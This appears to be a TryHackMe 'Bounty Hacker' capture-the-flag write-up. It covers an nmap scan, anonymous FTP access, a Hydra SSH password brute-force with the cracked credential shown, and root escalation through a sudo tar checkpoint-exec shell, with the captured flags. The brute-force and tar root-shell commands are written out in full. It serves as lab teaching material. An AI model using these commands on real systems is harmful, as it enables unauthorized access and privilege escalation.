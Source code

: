 # Bounty Hunter Writeup (Easy)
### TryHackMe 
### Ean Dudley, 12/20/2021

### Task 1: Deploy The Machine 
Connect to the machine via the attack box or openvpn 

### Task 2: Find Open Ports 
I used NMAP to find open ports using the following syntax: 

``` bash
sudo nmap -sC -sV [TargetIP]
``` 

I got the following return: 

``` bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:11 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.94 seconds
```

Lets add the the flag ``` -Pn ``` and see if we can find any open ports. 
``` bash 
sudo nmap -sC -sV -Pn [TargetIP] 
```

Using the -Pn flag was successful and the following output was given: 
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:12 EST
Nmap scan report for 10.10.79.132
Host is up (0.14s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.77.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
```

There seem to be three ports running services that may be helpful: 
	Port 21 FTP 
	Port 22: SSH
	Port 80: TCP 

FTP also has anonymous login available to access two files: 
	- task.txt
	- locks.txt 
	
### Task 3: Who wrote the task list? 

FTP has a file called task.txt and anonymous access. Lets login to FTP and see if we can find out who wrote the tasklist. 

``` bash 
ftp [targetIP]
``` 

After executing this command you should get the following output, and be prompted for the name (See line 3 of the following output).  Enter: 'anonymous' to take advantage of the FTP anonymous login. 

```bash
Connected to 10.10.79.132.
220 (vsFTPd 3.0.3)
Name (10.10.79.132:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now you should see your prompt change to ```ftp>``` and you can begin using FTP to read the files. Lets get both files onto our local machine and then read them. 

``` bash
ftp> get 
(remote-file) task.txt
(local-file) task.txt 

ftp> get 
(remote-file) lock.txt
(local-file) lock.txt
```

Back on our local machine lets read these files, starting with task.txt. 

``` bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We get our **Answer** for task 3: **lin**

### Task 4:  What service can you bruteforce with the text file found?

We can bruteforce** SSH** using Hydra since we have a username. Conviently, the lock.txt file has a list of what appears to be passwords so we can run a wordlist based attack on SSH to login. 

### Task 5: What is the users password? 

Lets use **Hydra** as we talked about before to run an attack on SSH using the username lin. 

``` bash 
hydra -l lin -P locks.txt 10.10.79.132 -t 4 ssh
``` 

The ``` -l ``` flag specifies the username and the ``` -P ``` flag specifies the password list. The ``` -t 	``` flag is used to specifie the number of thread to use for the attack. Hydra recommends 4 threads for SSH. 

After running this command we should get the following output: 
``` bash 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-20 13:21:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.79.132:22/
[22][ssh] host: 10.10.79.132   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-20 13:21:37
``` 

We see that our password is: **RedDr4gonSynd1cat3**. 

### Task 6: user.txt 

Login to ssh using ``` lin@[targetIP]``` and when prompted for the password use the answer from question 4. 

After loging into the system use cat to read the user.txt file: 
``` bash 
cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

**Flag: THM{CR1M3_SyNd1C4T3}**

### Task 7: root.txt 

Now that we have an inital foothold, lets try to gain root access. To start lets see if we have authroization to run anything as root that we may be able to exploit: 

```bash
sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

``` 

We see that we have authroization to run ``` tar ``` as root. We can exploit this by using the following command: 

``` bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


*If you are unsure how to exploit tar, there are a lot of good resources online. This one is my favourite: https://gtfobins.github.io/gtfobins/tar/*

We should not be able to pop a shell with root access: 

``` bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
cat /root/root.txt
THM{80UN7Y_h4cK3r}
``` 

We get our **root flag: THM{80UN7Y_h4cK3r}**

### Summary 
We initally scan this machine using nmap and have to force ports to respond using the  -Pn option. From NMAP we see that we can login to FTP anonymous access in order to read a tasklist and a password list. We can then use that passowrd list and the username found in the tasklist to brute-force an attack on SSH using Hydra. Using the login credentials to SSH found by Hydra, we can login and get our inital access. Then we can use sudo on the target machine to find if there are any vulnerable commands we can utilize to get root access. Sudo shows that tar is able to be executed at a super user level, and we are able to exploit tar to get root level access. 
